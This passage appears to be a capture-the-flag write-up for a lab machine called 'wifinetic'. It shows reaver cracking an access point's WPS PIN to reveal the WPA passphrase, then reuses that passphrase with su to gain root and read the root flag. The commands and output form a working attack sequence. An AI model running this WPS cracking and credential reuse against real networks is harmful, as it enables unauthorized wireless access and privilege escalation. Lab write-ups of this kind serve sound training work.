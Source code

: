 ### WPS cracking
Since we have the capabilities to execute `reaver` we can try to crack the WPS pin of the access point interface `wlan0`:
```
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
netadmin@wifinetic:~$
```
And we got another unique password, that could be relevant.

## Root flag
We can try to `su` with that password:
```
netadmin@wifinetic:~$ su
Password: 
root@wifinetic:/home/netadmin# 
```

Now we can get the root flag:
```
root@wifinetic:~# ls -al 
total 40
drwx------  7 root root 4096 Sep 11 17:24 .
drwxr-xr-x 20 root root 4096 Sep 11 16:40 ..
drwxr-xr-x  3 root root 4096 Aug  8 15:16 .ansible
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Aug  8 15:16 .cache
drwxr-xr-x  3 root root 4096 Aug  8 15:16 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
lrwxrwxrwx  1 root root    9 Sep  7 14:19 .python_history -> /dev/null
-rw-r-----  1 root root   33 Sep 25 00:36 root.txt
drwxr-xr-x  3 root root 4096 Aug  8 15:16 snap
drwx------  2 root root 4096 Aug  8 15:16 .ssh
root@wifinetic:~# cat root.txt 
b2bda4493ad562cef3f389ea1aca8587
```